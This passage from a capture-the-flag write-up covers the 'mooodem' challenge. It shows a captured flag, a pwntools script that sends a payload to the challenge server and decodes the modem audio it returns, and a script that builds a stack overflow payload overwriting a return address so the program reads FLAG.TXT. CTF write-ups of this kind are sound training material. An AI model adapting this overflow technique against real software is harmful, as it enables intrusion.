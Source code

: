 and remotely:

```
OOO{AYH3Xn4qAeZDl3McORnINdiY8yaoow7bbq/DcrQv4DQ=}
```

Using `mooodem.sh` with OOO hacked up `minimodem` is cheating, so back to my original method from above:

```python
#!/usr/bin/python3

from pwn import *
import os

def getsome(filename,p,n,d):
    c = 0
    if os.path.exists(filename):
        os.remove(filename)
    f = open(filename,'wb+')
    while c < n:
        _ = p.recv(4096)
        c += len(_)
        f.write(_)
        print('.',end='')
        if d == 1:
            print(c, len(_))
    print()
    f.close()
    return

p = remote('mooodem.challenges.ooo', 5000)
r = open('in1.bin','rb').read()
p.send(r)
getsome('out1.bin',p,15282112,0)
os.system('./bin2wav out1.bin out1.wav; minimodem -r -8 -f out1.wav 1200')
```

To create `in1.bin` using the stack (second) method:

```python
#!/usr/bin/python3

payload  = b''
payload += b'FLAG.TXT\nsupersneaky2020\nC\n'
payload += 0x106*b'A'
payload += p16(0xe98a) # quote function
payload += p16(0xff8c + 2 + 2 + 2) # return address, pointer to file, pointer to rb, then "FLAG.TXT"
payload += p16(0xbd5) # rb
payload += b'FLAG.TXT\x00'
payload += b'\n\nL\n'
open('payload.bin','wb').write(payload)
```
